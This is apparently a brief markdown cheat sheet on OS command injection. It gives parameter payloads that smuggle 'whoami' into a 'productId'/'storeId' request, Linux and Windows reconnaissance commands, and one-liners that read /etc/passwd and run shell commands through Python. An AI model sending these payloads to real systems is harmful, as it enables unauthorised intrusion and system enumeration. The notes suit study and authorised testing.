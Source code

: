 # OS Command Injection
also known as "shell injection"


Placing the additional command separator & after the injected command is useful because it separates the injected command from whatever follows the injection point. This reduces the chance that what follows will prevent the injected command from executing.

Example:
`productId=8&storeId=1|whoami`
`productId=8 & whoami & storeId=1`
`productId=8 & whoami # (this is a comment) storeId=1`

# Linux
whoami
id
uname -a
ifconfig/ip addr
netstat -an
ps -ef


How many non-root/non-service/non-daemon users are there?
`awk -F':' '{ if ($3 >= 1000 && $1 != "nobody" ) print $1 }' /etc/passwd | wc -l`

What is the [USER]'s shell set as?
`getent passwd [USER]| awk -F':' '{print $7}'`
	- eg: `getent passwd www-data | awk -F':' '{print $7}'`



#Windows
whoami
ver
ipconfig /all
netstat -an
tasklist




# Python
import os; print(os.popen("ls -l").read())
import os; print(open("path/to/your/file.txt", "r").read())